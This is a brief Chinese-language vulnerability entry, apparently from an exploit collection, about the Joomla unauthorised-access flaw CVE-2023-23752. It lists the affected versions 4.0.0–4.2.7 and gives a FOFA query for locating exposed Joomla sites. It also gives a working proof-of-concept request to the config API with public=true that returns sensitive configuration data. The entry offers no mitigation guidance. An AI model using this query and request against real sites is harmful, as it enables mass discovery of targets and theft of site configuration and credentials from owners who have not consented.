


# Joomla application 未授权访问漏洞 CVE-2023-23752

## 漏洞描述

Joomla 存在未授权访问漏洞，攻击者通过覆盖 public 值绕过限制，访问部分API获取敏感数据

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## FOFA

```
app="Joomla"
```

## 漏洞复现

登陆页面



验证POC

```
/api/index.php/v1/config/application?public=true
```

